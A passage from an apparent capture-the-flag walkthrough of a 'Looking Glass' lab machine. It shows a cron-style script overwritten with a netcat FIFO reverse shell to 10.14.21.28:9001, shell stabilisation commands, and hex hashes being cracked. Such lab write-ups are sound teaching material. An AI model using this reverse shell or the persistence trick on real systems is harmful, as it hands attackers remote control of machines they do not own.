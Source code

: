 ```
cp twasBrillig.sh twasBrillig.sh.bak
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.28 9001 >/tmp/f" > twasBrillig.sh
```

Now, let's reboot while we have our listener ready:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250610232024.png)

Once it reboots, we get our shell, let's stabilize it:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250610232117.png)

We are `tweedledum`, let's check our home directory:

```
tweedledum@looking-glass:~$ ls -la
total 28
drwx------ 2 tweedledum tweedledum 4096 Jul  3  2020 .
drwxr-xr-x 8 root       root       4096 Jul  3  2020 ..
lrwxrwxrwx 1 root       root          9 Jul  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 tweedledum tweedledum  220 Jun 30  2020 .bash_logout
-rw-r--r-- 1 tweedledum tweedledum 3771 Jun 30  2020 .bashrc
-rw-r--r-- 1 tweedledum tweedledum  807 Jun 30  2020 .profile
-rw-r--r-- 1 root       root        520 Jul  3  2020 humptydumpty.txt
-rw-r--r-- 1 root       root        296 Jul  3  2020 poem.txt
```

We got `humptydumpty.txt`:

```
tweedledum@looking-glass:~$ cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

If we analyze them, they seem like a series of hashes, let's use crackstation to check:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250610232252.png)

